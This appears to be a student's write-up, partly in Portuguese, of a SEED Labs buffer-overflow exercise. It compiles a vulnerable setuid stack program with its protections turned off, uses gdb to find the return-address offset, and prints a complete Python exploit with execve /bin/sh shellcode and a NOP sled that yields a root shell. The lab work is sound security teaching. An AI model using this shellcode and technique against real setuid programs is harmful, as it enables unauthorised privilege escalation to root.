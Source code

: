 # Task 1

```bash
[10/10/22]seed@VM:~/.../shellcode$ a32.out
$ id -u                                                                                                          
1000
```
```bash
[10/10/22]seed@VM:~/.../shellcode$ sudo chown root a32.out
[10/10/22]seed@VM:~/.../shellcode$ sudo chmod 4755 a32.out
[10/10/22]seed@VM:~/.../shellcode$ a32.out
# id -u                                                                                                          
0
```

# Task 2

```bash
[10/10/22]seed@VM:~/.../code$ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
[10/10/22]seed@VM:~/.../code$ sudo chown root stack
[10/10/22]seed@VM:~/.../code$ sudo chmod 4755 stack
[10/10/22]seed@VM:~/.../code$ ls -l
total 32
-rwxr-xr-x 1 seed seed   270 Oct  3 05:58 brute-force.sh
-rwxr-xr-x 1 seed seed   891 Oct  3 05:58 exploit.py
-rw-r--r-- 1 seed seed   965 Oct  3 05:58 Makefile
-rwsr-xr-x 1 root seed 15908 Oct 10 07:04 stack
-rw-r--r-- 1 seed seed  1132 Oct  3 05:58 stack.c
```

# Task 3

Usando o comando `p` do debugger `gdb` foi possível obter o endereço guardado no registo `ebp` e o endereço do `buffer`. Tendo em conta que o valor do `frame pointer` é 0xffffca98, o valor do `return address` será 0xffffca98 + 4. De modo a descobrir a `distância` entre o endereço base do buffer e o return address, calculou-se a distância entre o ebp e o buffer (0xffffca98 - 0xffffca2c): 108. Uma vez que, o return address está acima do ebp 4 bytes, a `distância` é 108 + 4 = 112.

ACRESCENTAR FOTO **AQUI**

```bash
gdb-peda$ p $ebp
$1 = (void *) 0xffffca98
gdb-peda$ p &buffer
$2 = (char (*)[100]) 0xffffca2c
gdb-peda$ p/d 0xffffca98 - 0xffffca2c
$3 = 108
gdb-peda$ quit
```
O conteúdo do `shellcode[]` (código malicioso) foi substituído pelo código shellcode 32-bit, cujo tamanho é 27 bytes. Uma vez que o tamanho do array é 517, o `start` deverá ser <= 490 (517 - 27). Neste caso, colocou-se o código malicioso no final do array (start = 490) e o restante é preenchido com 0x90 (NOP´s).

exploit.py
```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffca98 + 200           # Change this number 
offset = 112              # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```


```sh
[10/16/22]seed@VM:~/.../code$ ./exploit.py 
[10/16/22]seed@VM:~/.../code$ ./stack-L1
Input size: 517
# id                                                                                                             
uid=1000(seed) gid=1000(seed) euid=0(root) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker
```
